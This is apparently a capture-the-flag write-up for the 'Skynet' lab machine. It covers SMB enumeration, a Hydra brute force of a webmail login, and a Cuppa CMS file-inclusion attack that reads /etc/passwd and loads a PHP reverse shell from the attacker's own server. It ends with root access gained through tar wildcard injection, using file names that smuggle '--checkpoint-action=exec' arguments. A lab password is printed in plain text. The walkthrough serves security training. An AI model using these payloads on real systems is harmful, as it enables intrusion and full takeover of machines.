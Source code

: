 # Skynet

**CTF Domain: Skynet.ctf**

## Scans

```rustscan -a Skynet.ctf```


## Eumeration

SMB Share allows anonymous login to /anonymous

attention.txt - All passwords have been reset, maybe we can find some of those passwords?

logs/log1.txt - Password list? Maybe use Hydra to brute force a login?

Theres a share named "milesdyson" could that be a username?

Login page: /squirrelmail/src/login.php

Using Hydra to brute force gives us a login! `milesdyson:$PASSWORD`

Email titled "Samba password reset" gives us a possible SMB password: ")s{A&2Z=F^n_E.B`"

SMB Password works! Gives us access to milesdyson share

Notes folder, important.txt gives us hidden directory "/45kra24zxs28v3yd/"

Running feroxbuster on that url gives us the other CMS /45kra24zxs28v3yd/administrator

Cuppa CMS, based on question most likely vulnerable to this:
```
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion | php/webapps/25971.txt
```

Other passwords did not work, really not sure what we're supposed to do to log in...

Turns out we don't need to! Exploit works unauthenticated

## Exploitation

Using this link we can exploit LFI:
```
http://skynet.ctf/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../etc/passwd
```

To turn this into a shell, lets use RFI

Get a PHP reverse shell and host it using python, then open up a pwncat listener

Set the urlConfig parameter to be our machine with the PHP reverse shell and we get a connection!
```
?urlConfig=http://$IP:8000/php-reverse-shell.php
```

## Privilege Escalation

LinPEAS found an interesting crontab entry, root is running backup.sh in milesdyson's home every minute

```
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
```

Look like we can't write to it, but we can read what it does:
```
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Since the tar command uses the * wildcard, we might be able to use this article:

https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

Since we can edit the /var/www/html directory, we can add arguments to the tar command by creating files with the arguments name

Create a simple bash reverse shell, name it shell.sh and put it in the /var/www/html directory

Run these commands to add arguments to tar to run the shell:
```
echo "" > "--checkpoint-action=exec=bash shell.sh"
echo "" > --checkpoint=1
```

And after a minute, we get a root shell!
